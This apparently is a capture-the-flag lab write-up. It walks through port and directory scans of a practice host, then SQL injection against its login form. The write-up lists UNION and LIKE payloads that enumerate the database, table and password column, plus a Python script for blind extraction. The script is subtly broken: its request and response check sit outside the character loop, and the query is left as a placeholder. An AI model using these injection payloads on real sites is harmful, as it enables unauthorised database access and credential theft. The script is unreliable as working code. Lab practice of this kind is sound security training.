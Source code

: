 ![](https://tryhackme-images.s3.amazonaws.com/room-icons/4fda99da293ec0bc477a4b9e456e55e1.png)

---
# Nmap Scan:

```Bash
$ scan 10.10.165.50
--------------------------------------------------------------------
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b0c569e6dd6b810cda32be41e35b9787 (RSA)
|   256 6c65ad87087a3e4c7dea3a30764d0416 (ECDSA)
|_  256 2d571d56f6565229eaaada33b2772c9c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Login
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
--------------------------------------------------------------------
```

---
# Port 80:

```bash
$ feroxbuster -u http://10.10.165.50 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x php
--------------------------------------------------------------------
403      GET        9l       28w      277c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      274c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       36l       76w     1081c http://10.10.165.50/index.php
200      GET       42l      104w     1567c http://10.10.165.50/register.php
200      GET       36l       76w     1081c http://10.10.165.50/
302      GET        0l        0w        0c http://10.10.165.50/welcome.php => index.php
302      GET        0l        0w        0c http://10.10.165.50/logout.php => index.php
200      GET        1l        0w        1c http://10.10.165.50/config.php
--------------------------------------------------------------------
```

index.php: Simple Login Page
config.php: nothing interesting

---

# SQL injection

On the login page the username parameter seems to be vulnerable to SQL injection.

After injecting the following payload: 

```mysql
' OR 1=1;-- -
```

the page gives us this error: SQL Injection detected. This incident will be logged!

After playing around a bit i found a working payload.

```mysql
' UNION SELECT 0,0,0,0;-- -
```

Now we can craft a payload based on this to get the database name.

```sql
' UNION SELECT 0,0,0,0 WHERE Database() like BINARY '%';-- -
```

If we do this manually its going to be a pain in the ass. That's why I wrote a script in python to automate the process

```python
import requests
import string

## Defining Characters
chars = string.ascii_lowercase + string.ascii_uppercase + string.digits + "-_+\{\}[]()/*.,"
url = "http://10.10.88.131/index.php"

result = ''

while True:
	## Loop through each character
	for char in chars:
		query = <PAYLOAD>
		data = {
		'username': query,
		'password': 'blabla'
		}
		
	r = requests.post(url, data=data, allow_redirects=True)
	if "Invalid username or password" in r.text:
		continue
	else:
		result += char
		print(result)
		break
```

To get the Table name and columns we need to change the payload based on the results we get.

- Database: mywebsite  
   
```sql
' UNION SELECT 0,0,0,0 WHERE Database() LIKE '%';-- -
```

- Table: siteusers
   
```sql
' UNION SELECT 0,0,0,0 FROM information_schema.tables WHERE table_schema = 'mywebsite' AND table_name LIKE '%';-- -
```

- Column: password, 

```sql
' UNION SELECT 0,0,0,0 FROM information_schema.columns WHERE table_schema = 'mywebsite' AND table_name = 'siteusers' AND column_name LIKE '%';-- -
```
